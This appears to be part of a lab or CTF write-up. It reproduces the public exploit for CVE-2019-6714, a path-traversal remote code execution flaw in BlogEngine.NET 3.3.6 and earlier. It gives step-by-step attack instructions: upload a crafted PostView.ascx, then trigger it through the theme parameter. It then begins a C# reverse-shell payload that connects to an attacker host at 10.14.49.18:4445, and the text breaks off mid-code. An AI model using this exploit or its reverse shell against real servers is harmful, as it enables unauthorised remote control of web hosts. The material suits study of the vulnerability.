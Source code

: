 -----
# Exploitation

## CVE-2019-6714

3.3.6.0 has an exploit available via exploit-db.com - https://www.exploit-db.com/exploits/46353

The exploit itself has a CVE issued as CVE-2019-6714.

```
# Exploit Title: BlogEngine.NET <= 3.3.6 Directory Traversal RCE
# Date: 02-11-2019
# Exploit Author: Dustin Cobb
# Vendor Homepage: https://github.com/rxtur/BlogEngine.NET/
# Software Link: https://github.com/rxtur/BlogEngine.NET/releases/download/v3.3.6.0/3360.zip
# Version: <= 3.3.6
# Tested on: Windows 2016 Standard / IIS 10.0
# CVE : CVE-2019-6714

/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.14.49.18", 4445)) {
```